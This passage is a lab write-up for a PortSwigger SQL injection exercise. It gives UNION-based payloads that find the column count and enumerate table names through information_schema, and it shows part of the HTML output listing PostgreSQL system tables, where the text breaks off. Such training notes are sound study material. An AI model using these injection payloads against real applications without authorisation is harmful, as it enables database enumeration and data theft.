 ### [Lab 5: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

- Determine the number of columns and returned data type: the same as the Lab 4: 

  `'+union+select+'n33r9','abcxyz'#`

- retrieve the list of tables in the database: `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

  ![image-20250525022925776](./image/image-20250525022925776.png)

  

  ```html
                      <table class="is-table-longdescription">
                          <tbody>
                          <tr>
                              <th>pg_partitioned_table</th>
                          </tr>
                          <tr>
                              <th>pg_available_extension_versions</th>
                          </tr>
                          <tr>
                              <th>pg_shdescription</th>
                          </tr>
                          <tr>
                              <th>user_defined_types</th>
                          </tr>
                          <tr>
                              <th>udt_privileges</th>
                          </tr>
                          <tr>
                              <th>sql_packages</th>
                          </tr>
                          <tr>
                              <th>pg_event_trigger</th>
  ```